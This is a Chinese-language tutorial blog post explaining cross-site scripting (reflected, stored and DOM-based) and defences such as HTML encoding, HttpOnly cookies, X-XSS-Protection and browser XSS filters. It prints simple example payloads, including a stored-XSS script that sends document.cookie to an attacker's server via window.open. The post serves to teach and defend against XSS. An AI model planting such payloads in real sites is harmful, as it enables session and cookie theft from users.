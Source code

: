 ```yaml
---
title: XSS
date: 2018-11-23 22:32:05
tags:
---
```


#### 什么是XSS

XSS又称CSS，全称Cross SiteScript，跨站脚本攻击，是Web程序中常见的漏洞。

XSS是指恶意攻击者利用网站没有对用户提交数据进行转义处理或者过滤不足的缺点，进而添加一些代码，嵌入到web页面中去。使别的用户访问都会执行相应的嵌入代码。从而盗取用户资料、利用用户身份进行某种动作或者对访问者进行病毒侵害的一种攻击方式。如，盗取用户Cookie、破坏页面结构、重定向到其它网站等。

#### 危害

![](./img/xss危害.png)

这么多~~

#### 有哪些注入的方法和途径：

- 在 HTML 中内嵌的文本中，恶意内容以 script 标签形成注入。
- 在内联的 JavaScript 中，拼接的数据突破了原本的限制（字符串，变量，方法名等）。
- 在标签属性中，恶意内容包含引号，从而突破属性值的限制，注入其他属性或者标签。
- 在标签的 href、src 等属性中，包含 javascript: 等可执行代码。
- 在 onload、onerror、onclick 等事件中，注入不受控制代码。
- 在 style 属性和标签中，包含类似 background-image:url("javascript:..."); 的代码（新版本浏览器已经可以防范）。
- 在 style 属性和标签中，包含类似 expression(...) 的 CSS 表达式代码（新版本浏览器已经可以防范）。

>总之，如果开发者没有将用户输入的文本进行合适的过滤，就贸然插入到 HTML 中，这很容易造成注入漏洞。攻击者可以利用漏洞，构造出恶意的代码指令，进而利用恶意代码危害数据安全。

#### 分类

##### 1、反射型xss攻击

又称为非持久性跨站点脚本攻击，它是最常见的类型的XSS。漏洞产生的原因是攻击者注入的数据反映在响应中。一个典型的非持久性XSS包含一个带XSS攻击向量的链接(即每次攻击需要用户的点击)。

反射型ＸＳＳ也被称为非持久性ＣＳＳ。当用户访问一个带有XSS代码的URL请求时，服务器端接收数据后处理，然后把带有XSS代码的数据发送到浏览器，浏览器解析这段带有XSS代码的数据后，最终造成ＸＳＳ漏洞。这个过程就像一次反射，故称为反射型ＸＳＳ。

```
正常发送消息：

http://www.test.com/message.php?send=Hello,World！

接收者将会接收信息并显示Hello,Word

非正常发送消息：

http://www.test.com/message.php?send=<script>alert(‘foolish!’)</script>！

接收者接收消息显示的时候将会弹出警告窗口
```

##### 2、存储型xss攻击

Stored XSS是存储式XSS漏洞，由于其攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人。


a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功！这个过程中，受害者是多个人。

Stored XSS漏洞危害性更大，危害面更广。

##### 3、DOMBasedXSS（基于dom的跨站点脚本攻击）

基于DOM的XSS有时也称为type0XSS。当用户能够通过交互修改浏览器页面中的DOM(DocumentObjectModel)并显示在浏览器上时，就有可能产生这种漏洞，从效果上来说它也是反射型XSS。

通过修改页面的DOM节点形成的XSS，称之为DOMBasedXSS。

前提是易受攻击的网站有一个HTML页面采用不安全的方式从document.location 或document.URL 或 document.referrer获取数据（或者任何其他攻击者可以修改的对象）。
　　
var pos= document.URL.indexOf("name=")+5;

var len = document.URL.substring(pos,document.URL.length);  

document.write(len);  

>
这个页面，name是截取URL中get过来的name参数  
正常操作：  
http://www.vulnerable.site/welcome.html?name=Joe  
非正常操作：  
http://www.vulnerable.site/welcome.html?name=<script>alert(document.cookie)</script>


### 防御

#### 类似这些操作要小心

innerHTML、.outerHTML、document.write()

#### HTML Encode

用户将数据提交上来的时候进行HTML编码，将相应的符号转换为实体名称再进行下一步的处理。

```
比如用户输入：<script>window.location.href=”http://www.baidu.com”;</script>，保存后最终存储的会是：&lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;在展现时浏览器会对这些字符转换成文本内容显示，而不是一段可执行的代码。
```

#### 过滤或移除特殊的Html标签

例如: &lt;script&gt;, &lt;iframe&lt; , &lt; for &lt;, &gt; for &gt;, &quot for

##### 过滤JavaScript 事件的标签

例如 "onclick=", "onfocus" 等等。

#### 将重要的cookie标记为http only

这样的话Javascript 中的document.cookie语句就不能获取到cookie了.

#### 表单数据规定值的类型

例如：年龄应为只能为int、name只能为字母数字组合

>这里有个国人写的xss过滤的  https://jsxss.com/zh/index.html

#### Secure标记

标记为 Secure 的Cookie只应通过被HTTPS协议加密过的请求发送给服务端。

#### X-XSS-Protection

让浏览器去做xss筛选，起到保护作用。

只要在HTTP响应报文的头部增加一个X-XSS-Protection 字段，明确地告诉浏览器XSS filter/auditor该如何工作。 

X-XSS-Protection 的字段有三个可选配置值：

- 0： 表示关闭浏览器的XSS防护机制
- 1：删除检测到的恶意代码，如果响应报文中没有看到X-XSS-Protection 字段，那么浏览器就认为X-XSS-Protection配置为1，这是浏览器的默认设置
- 1; mode=block：如果检测到恶意代码，在不渲染恶意代码


### 浏览器XSS过滤策略

从IE8 开始，IE 浏览器内置了一个针对XSS攻击的防护机制，这个浏览器内置的防护机制就是所谓的XSS filter，这个防护机制主要用于减轻反射型XSS 攻击带来的危害。 基于Webkit 内核的浏览器（比如Chrome）随后也增加一个名为XSS auditor 的防护机制，作用和IE中的XSS filter类似。这两种XSS防护机制的目的都很简单，如果浏览器检测到了含有恶意代码的输入被呈现在HTML文档中，那么这段呈现的恶意代码要么被删除，要么被转义，恶意代码不会被正常的渲染出来，当然了，浏览器是否要拦截这段恶意代码取决于浏览器的XSS防护设置。

怎么设置策略。看上面“X-XSS-Protection”

***

IE引入的XSS filter。
有一堆的正则表达式。
每一行正则式代表一条规则。IE在判断时会扫描URL，对匹配上的正则表达式的url报警，提示发现xss攻击并将字符替换为“#“。

***

chrome XSSAuditor的工作原理
chrome的XSSAuditor也被整合到了渲染引擎WebKit中。

当网页加载时，XSSAuditor会在页面之前苹果用户的输入。它首先评估用户输入是否包含有恶意内容，如果有就拦截。XSSAuditor也会检查用户是否会“反射”到正在渲染的页面中。

***

***原理的区别：***  
与IE不同的是，chrome的XSSAuditor并没有使用正则的形式去判断。chrome的xss过滤是在词法解析阶段进行的。在解析网页时，html代码会被分解成不同的token（每个token即一个元素），XSSAuditor会逐一审查token，将token中存在的危险属性、字段和url比较，若url中也有同样的内容，则XSSAuditor会认为这是一个反射型xss攻击，随后会对该字段进行过滤处理。


例如在检查如下代码 

```
<iframe src="x" onerror="alert(6)"></iframe>
```

会依次做如下判断:  

- 1.检查开始标签iframe，如果包含属性src、onerror,则认为可能危险，继续检查
- 2.如果src 不是以javascript:开头，则安全，放行。
- 3.onerror中包含脚本，检查这段代码是否同样出现在url中。
- 4.如果出现在url中，认为这个地方有问题，这段代码会被过滤成&lt;iframe src="x" onerror="void(0)"&gt;&lt;/iframe&gt; 如果没有出现在url中，认为这个地方没有问题，继续。
- 5.检查终止标签iframe，没有问题，全流程结束


>火狐浏览器为什么没有xss filter机制
>XSS攻击也应正了安全圈内非常有名的一句话：所有的输入都是有害的。